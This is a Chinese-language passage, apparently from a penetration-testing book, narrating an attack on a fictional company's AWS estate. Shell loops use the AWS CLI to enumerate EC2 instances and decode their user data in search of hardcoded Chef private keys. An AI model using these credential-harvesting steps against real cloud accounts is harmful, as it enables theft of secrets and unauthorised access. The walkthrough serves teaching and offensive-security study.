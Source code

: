 与 Chef 服务器的通信通常是经过充分保护的。每台由 Chef 管理的服务器都会获得一个专用的私钥，用于下载 cookbooks、策略和其他资源。管理员还可以使用 API 令牌来执行远程任务。

然而，值得庆幸的是，资源之间没有隔离。我们所需要的只是一个有效的私钥，哪怕是属于某个虚拟测试服务器的私钥，也能读取 Chef 上曾存储过的每个 cookbook 文件。生活不就是信任吗！

那个私钥应该不难找到。我们可以读取 EC2 API，涉及约 2,000 台服务器。肯定有一台服务器的用户数据中硬编码了 Chef 私钥。我们只需要执行 2,000 次 API 调用。

起初看似繁琐且细致的任务其实可以轻松自动化。多亏了存储在 MXR Ads GitHub 仓库中的 cookbooks，我们已经知道哪些服务依赖于 Chef：Cassandra（NoSQL 数据库）、Kafka（流处理软件）、Jenkins、Nexus（代码仓库）、Grafana（仪表板和度量）等。

我们将这些服务名称作为关键字存储在文件中，然后将它们输入到一个循环中，从中获取带有匹配关键字标签名称的实例，如下所示。我们提取每个机器池中每个服务的第一个实例 ID，因为例如，所有 Cassandra 机器可能共享相同的用户数据，所以我们只需要一个实例：

```
root@Point1:~/# **while read p; do**
 **instanceID=$(aws ec2 describe-instances \**
 **--filter "Name=tag:Name,Values=*$p*" \**
 **--query 'Reservations[0].Instances[].InstanceId' \**
 **--region=eu-west-1 \**
 **--output=text)**
 **echo $instanceID > list_ids.txt**
**done <services.txt**
```

这种相对临时的采样方法让我们得到了大约 20 个实例 ID，每个 ID 对应一台承载不同服务的机器：

```
root@Point1:~/# **head list_ids.txt**
i-08072939411515dac
i-080746959025ceae
i-91263120217ecdef
`--snip--`
```

我们循环遍历这个文件，调用`ec2 describe-instance-attribute` API 来获取用户数据，解码并将其存储到文件中：

```
root@Point1:~/# **while read p; do**
 **userData=$(aws ec2 describe-instance-attribute \**
 **--instance-id $p \**
 **--attribute userData \**
 **--region=eu-west-1 \**
 **| jq -r .UserData.Value | base64 -d)**
 **echo $userData > $p.txt**
**done <list_ids.txt**
```

我们检查创建了多少个文件，并确认这些文件包含用户数据脚本：

```
root@Point1:~/# **ls -l i-*.txt |wc -l**
21
root@Point1:~/# **cat i-08072939411515dac.txt**
encoding: gzip+base64
  path: /etc/ssh/auth_principals/user
  permissions: "0644"
- content: |-
    #!/bin/bash
`--snip--`
```
